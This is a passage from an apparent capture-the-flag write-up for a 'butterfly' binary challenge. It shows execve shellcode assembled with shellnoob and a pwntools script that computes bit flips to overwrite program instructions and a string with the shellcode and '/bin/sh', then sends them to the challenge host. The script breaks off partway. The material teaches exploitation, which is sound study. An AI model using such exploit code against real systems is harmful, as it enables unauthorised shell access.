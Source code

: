 `0x400914` is the location of the greeting message `THOU ART GOD, WHITHER CASTEST THY COSMIC RAY?`

Back with `shellnoob`:

```
$ shellnoob --64 --intel -i --to-opcode
asm_to_opcode selected (type "quit" or ^C to end)
>> xor rsi, rsi; mov rax, 59; xor rdx, rdx; mov rdi, 0x400914; syscall
xor rsi, rsi; mov rax, 59; xor rdx, rdx; mov rdi, 0x400914; syscall
~> 4831f648c7c03b0000004831d248c7c7140940000f05
```

I chose to start at `0x40084a` because some bytes correspond:
`0x0040084a      4531f6         xor r14d, r14d`

Now either you go the long way and compute all the bit flips needed by hand or you code something.

# Payload

The script has to compute all the bit flips needed to change a portion of the existing instruction into the shellcode and the first 8 bytes of the greeting strings into `/bin/sh\0`. Once the bit flips for a certain byte are computed, we need to revert the algorithm that derives the address from the input and send a number for each flip needed inside the byte.

```
#!/usr/bin/env python2

from pwn import *

r = remote('butterfly.pwning.xxx', 9999)
#r = remote('localhost', 9999)

loop_val = '0x20041c6'
# Start the loop
r.sendline(loop_val)

# Generate the payload
start_addr = 0x40084a
shell_addr = 0x400914
shellcode = '4831f648c7c03b0000004831d248c7c7140940000f05'
text      = '4531f664488b042528000000483b44244075264489f0'
shell = ''.join('{:02x}'.format(ord(c)) for c in list('/bin/sh\0'))
greeting = 'THOU ART GOD, WHITHER CASTEST THY COSMIC RAY?'[0:8]
greeting = ''.join('{:02x}'.format(ord(c)) for c in greeting)

# We need to parse it bytes after bytes
chunks_sc = [shellcode[i:i+2] for i in range(0, len(shellcode), 2)]
chunks_tx = [text[i:i+2] for i in range(0, len(text), 2)]

# loop over each byte
for i in range(0,len(chunks_tx)):
    # compute the flips needed
    flips = list('{:08b}'.format(int(chunks_tx[i],16) ^ int(chunks_sc[i], 16)))
    flips.reverse()
    indices = []
    # store the offsets of the flips in a table
    for j in range(0,len(flips)):
        if (flips[j] == '1'):
            indices.append(j)
    # for each flip send a corresponding number
    for n in indices:
        r.sendline('0x{:x}'.format((start_addr + i) * 8 + n))

#Same for the greeting and shell
chunks_sh = [shell[i:i+2] for i in range(0, len(shell), 2)]
chunks_gr = [greeting[i:i+2] for i in range(0, len(greeting), 2)]
```

[fgets]: http://man7.org/linux/man-pages/man3/fgets.3.html
[strtol]: http://man7.org/linux/man-pages/man3/strtol.3.html
[mprotect]: http://man7.org/linux/man-pages/man2/mprotect.2.html
[r2]: http://www.radare.org/r/
[shellnoob]: https://github.com/reyammer/shellnoob